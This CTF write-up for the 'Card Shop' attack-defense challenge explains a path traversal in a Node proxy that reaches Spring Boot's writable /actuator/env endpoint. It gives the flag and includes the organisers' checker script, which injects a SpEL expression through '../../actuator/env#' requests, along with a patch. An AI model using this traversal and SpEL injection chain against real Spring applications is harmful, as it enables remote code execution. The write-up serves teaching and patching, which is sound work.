






# Card Shop
>Category: Defense 🧱

## 📚Description:
> _Welcome to my card shop!_
>
> _Author: vicevirus_



## ✨Walkthrough

**Step 1:** 

Understanding the page functions
When opening the web pages, we come to the main page which has two functions to generate cards and to view collection:


In /generate:


The system will generate Pokémon card based on the provided Pokémon ID.



We are also able to generate another card or add the current card to the collection.

In /collection:



After reading the source code, the system has other pages which are **/pokemon** and **/abilities**.

```javascript
fastify.get('/pokemon', (r, s) => {
    const id = r.query.id || ''
    return forward(r, s, 'GET', `/pokemon/${id}`)
})
fastify.post('/abilities', (r, s) => {
    const id = r.body.id || ''
    return forward(r, s, 'POST', `/pokemon/${id}/abilities`)
})
```

**Step 2:** 

Finding vulnerabilities/flaws in the code
We found out that the web pages are exposing the **.env** files which can be accessed by going to **/actuator/env** (Spring Boot endpoints).

```yaml
web-client:
  max-connections: 500

management:
  endpoints:
    web:
      exposure:
        include:
          - health
          - info
          - env
        exclude:
          - heapdump
          - threaddump
          - shutdown
          - loggers
          - mappings
          - metrics
          - configprops
          - beans
          - caches
          - conditions
          - scheduledtasks
          - features
  endpoint:
    env:
      post:
        enabled: true

```

But how do we can access the .env file if the /generate page is only able to retrieve integer values.


Based on the code also, we found that the /pokemon does not properly validate the user input.

```javascript
fastify.get('/pokemon', (r, s) => {
    const id = r.query.id || ''
    return forward(r, s, 'GET', `/pokemon/${id}`)
})
```

This makes the page to be vulnerable to path traversal attacks which allow the attacker to retrieve the internal files due to improper input validations.

## 🔍Solution

So, to solve this, we try to retrieve the .env file by using the exposed endpoints /actuator/env.



## 🏳️Flag:
>UMCS{spr1ng_b00t_m4st3rr4c3_9cad5b35}

## 🩹Patching

For patching, during the event, we haven’t enough time to patch it. But anyways, here’s how to patch the vulnerabilities that can be exploited by the SLA script for vulnerability check.

We already know that the system is vulnerable to the path traversal attack which comes from improper input validation and misconfigurations in the code. From the SLA script, it will use the vulnerabilities to exploit SpEL (Spring Expression Language) Injection which is an attack involved in injection of Java code to gain code execution. References: https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spel-injection#spel-injection.

So here is the SLA script:

```python
#!/usr/bin/env python3
import sys
import requests

STATUS_UNPATCHED = 0
STATUS_PATCHED = 1
STATUS_DOWN = 2

def run_exploit(host, port):
    base = f"http://{host}:{port}"

    try:
        r1 = requests.post(f"{base}/abilities", json={
            "id": "../../actuator/env#",
            "name": "SHADOW_ENABLE",
            "value": "true"
        }, timeout=5)
        if r1.status_code != 200:
            return STATUS_DOWN

        r2 = requests.post(f"{base}/abilities", json={
            "id": "../../actuator/env#",
            "name": "SPECIAL_ABILITY",
            "value": '#{"suppppperrrrrrreeassssyyyyychallllennnnggeeeee"}'
        }, timeout=5)
        if r2.status_code != 200:
            return STATUS_DOWN

        r3 = requests.post(f"{base}/generate", data={"pokemonId": "3"}, timeout=5)
        if r3.status_code != 200:
            return STATUS_DOWN

        if "suppppperrrrrrreeassssyyyyychallllennnnggeeeee" in r3.text:
            return STATUS_UNPATCHED
        else:
            return STATUS_PATCHED

    except requests.RequestException:
        return STATUS_DOWN
    except Exception:
        return STATUS_DOWN

if __name__ == "__main__":
    host = sys.argv[1] if len(sys.argv) > 1 else "localhost"
    port = int(sys.argv[2]) if len(sys.argv) > 2 else 3000
    code = run_exploit(host, port)
    print(code)
    sys.exit(code)
```

From the 1st request (r1), it is shown that the SLA script will try to manipulate the env file data which is the SHADOW_ENABLE to be true. From the source code, if the SHADOW_ENABLE=true, the generated Pokémon card will have the name Shadow at the start, having additional type which is Dark and able to set the SPECIAL_ABILITY based on user input as in the 2nd request (r2) then it will be parsed using the SpelExpressionParser PARSER.

```java
import libraries_here 

@Controller 
public class CardGeneratorController { 
    private static final SpelExpressionParser PARSER = new SpelExpressionParser(); 
    private static final TemplateParserContext CTX = new TemplateParserContext(); 
    {...} // other fields and methods 

    @PostMapping("/generate")
    {...} // other mappings 

        if (isShadow()) { 
            p.setName("Shadow " + p.getName()); 
            p.getTypes().add("Dark"); 
            String raw = env.getProperty("SPECIAL_ABILITY"); 
            if (raw != null) { 
                p.setAbility(PARSER.parseExpression(raw, CTX).getValue(String.class)); 
            } 
        } 

        m.addAttribute("shadowEnabled", true); 
        m.addAttribute("pokemon", p); 
        return "card-result"; 
    } 
        
    private boolean isShadow() { 
        return "true".equalsIgnoreCase(env.getProperty("SHADOW_ENABLE")); 
    }
```



Not patch vulnerabilities after running the SLA script (0 = UNPATCHED).

So, here are the critical vulnerabilities which need to be patched. The user input into the SPECIAL_ABILITY can result in severe exploits which the attacker can remotely execute arbitrary code. We need to make sure the SPECIAL_ABILITY is not able to be manipulated by the user. But how?

```java
import libraries_here 

@Controller 
public class CardGeneratorController { 
    private static final SpelExpressionParser PARSER = new SpelExpressionParser(); 
    private static final TemplateParserContext CTX = new TemplateParserContext(); 
    {...} // other fields and methods 

    @PostMapping("/generate")
    {...} // other mappings 

        if (isShadow()) { 
            p.setName("Shadow " + p.getName()); 
            p.getTypes().add("Dark"); 
            String raw = env.getProperty("SPECIAL_ABILITY"); 
            if (raw != null) { 
                // p.setAbility(PARSER.parseExpression(raw, CTX).getValue(String.class)); // Vulnerable code
                p.setAbility(p.getAbility()); // PATCH: Dissalow user input for the set SPECIAL_ABILITY (avoid SpEL Injection)
            } 
        } 

        m.addAttribute("shadowEnabled", true); 
        m.addAttribute("pokemon", p); 
        return "card-result"; 
    } 
        
    private boolean isShadow() { 
        return "true".equalsIgnoreCase(env.getProperty("SHADOW_ENABLE")); 
    }
```

By changing the code to set the SPECIAL_ABILITY from allowing user input to disallow user input. It will not go through the PARSER function, the SpEL Injection should not be working now.



Patched vulnerabilities after running the SLA script (1 = PATCHED).